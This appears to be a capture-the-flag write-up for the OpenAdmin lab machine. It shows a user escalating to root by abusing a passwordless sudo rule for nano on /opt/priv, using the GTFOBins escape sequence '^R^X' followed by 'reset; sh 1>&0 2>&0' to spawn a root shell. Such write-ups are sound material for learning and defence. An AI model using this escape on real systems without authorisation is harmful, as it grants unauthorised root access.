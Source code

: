 # User Joanna after sshing to her machine with decrypted id_rsa file 
## sudo -l to see what we can run as sudo. Low hanging fruit

```
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
joanna@openadmin:~$ 

```
- I can run nano as root but only with the file /opt/priv
	* opened the file `sudo nano /opt/priv`

- Now we need to gtfo
	* went online to gtfo bins, looked under nano 

```
nano
^R^X
reset; sh 1>&0 2>&0
```
- ^R^X are just ctrl+R and ctrl+X
	* able to execute a command now and type the next line after the commands in and we are givien a root shell
